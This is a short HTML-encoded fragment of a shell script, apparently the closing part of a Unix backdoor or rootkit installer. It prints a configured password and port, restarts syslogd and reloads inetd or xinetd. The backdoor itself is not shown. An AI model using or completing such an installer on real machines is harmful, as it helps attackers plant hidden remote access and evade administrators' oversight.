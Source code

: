 &quot;${DMAG} &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;Password: $1 &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;${RES}&quot;</p><p>echo &quot;${DMAG} &nbsp;  &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;Port: $2 &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;${RES}&quot;</p><p>&nbsp;</p><p>if [ -f /usr/sbin/syslogd ]; then</p><p>&nbsp; &nbsp;/usr/sbin/syslogd -m 0</p><p>else</p><p>&nbsp; &nbsp;/sbin/syslogd -m 0</p><p>fi</p><p>&nbsp;</p><p>if [ -f /usr/sbin/inetd ]; then</p><p>&nbsp; &nbsp;killall -HUP inetd &gt;/dev/null 2&gt;&amp;1</p><p>elif [ -f /usr/sbin/xinetd ]; then</p><p>&nbsp; &nbsp;killall -HUP xinetd</p><p>fi</p><p>&nbsp;</p><p>&nbsp;</p><p></p>